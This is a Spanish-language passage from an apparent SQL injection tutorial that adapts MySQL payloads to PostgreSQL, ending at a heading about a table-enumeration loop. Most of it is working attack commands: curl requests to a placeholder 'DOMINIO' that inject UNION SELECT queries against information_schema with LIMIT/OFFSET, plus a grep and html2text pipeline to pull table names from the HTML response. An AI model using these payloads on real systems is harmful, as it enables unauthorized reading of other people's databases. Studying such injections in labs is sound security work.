 
---

## curl (PostgreSQL)

En esta sección mostramos cómo adaptar los ejemplos de `curl` que usamos para MySQL a **PostgreSQL**, manteniendo la misma estructura pero corrigiendo la sintaxis (especialmente `LIMIT`). 

### 1. Diferencia clave

En MySQL solemos usar `LIMIT <offset>,<count>` (por ejemplo `LIMIT 1,1`). En PostgreSQL la sintaxis correcta es:

```sql
LIMIT <count> OFFSET <offset>
```

Por eso debemos transformar payloads como `LIMIT 1,1` → `LIMIT 1 OFFSET 0`.


### 2. Un `curl` simple (obtener una fila concreta)

Si queremos pedir la primera tabla (`offset 0`) usando una inyección `UNION` que devuelve 2 columnas (por ejemplo `NULL, table_name`), el `curl` sería:

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 0-- "
```

Para la segunda fila (`offset 1`):

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 1-- "
```

> Nota: envolvemos la URL entre comillas para evitar problemas con caracteres especiales en la shell.


### 3. Procesar la salida (filtrar la celda HTML)

Si la página devuelve la tabla dentro de `<td>` y queremos extraer sólo el texto, combinamos `grep` y `html2text` (igual que en MySQL):

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 0-- " | grep "<td>" | html2text
```

Resultado esperado (ejemplo):

```
pg_statistic
```


### 4. Bucle para enumerar tablas (Postgres)
